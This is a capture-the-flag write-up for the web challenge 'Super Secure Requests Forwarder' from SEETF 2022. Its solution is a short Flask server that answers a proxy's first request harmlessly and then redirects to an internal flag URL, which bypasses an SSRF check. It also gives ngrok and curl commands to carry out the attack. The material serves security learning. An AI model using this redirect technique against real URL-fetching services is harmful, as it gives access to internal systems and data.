 ```yaml
---
name: Super Secure Requests Forwarder (2022)
event: Social Engineering Experts CTF 2022
category: Web
description: Writeup for Super Secure Requests Forwarder (Web) - Social Engineering Experts CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Super Secure Requests Forwarder

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-cc4U1H53F8/0.jpg)](https://youtu.be/-cc4U1H53F8?t=4180 "Social Engineering Experts CTF 2022: Super Secure Requests Forwarder")

## Description

> Hide your IP address and take back control of your privacy! Visit websites through our super secure proxy.

## Solution

{% code overflow="wrap" %}
```py
from flask import Flask, redirect, request

# flask run
# ngrok http 5000
# curl -X POST -d "url=http://c0ac-81-103-153-174.ngrok.io/exploit" http://ssrf.chall.seetf.sg:1337/

app = Flask(__name__)
check = True

@app.route("/")
def index():
    return "<a href='https://www.youtube.com/c/CryptoCat23'>👀</a>"

@app.route("/exploit", methods=['GET', 'POST'])
def handle():
    global check
    if check:  # First request = benign
        check = False
        return "First request is benign, why wouldn't the second be?!"
    else:  # Second request = malicious
        check = True
        return redirect("http://127.0.0.1/flag", code=302)
```
{% endcode %}
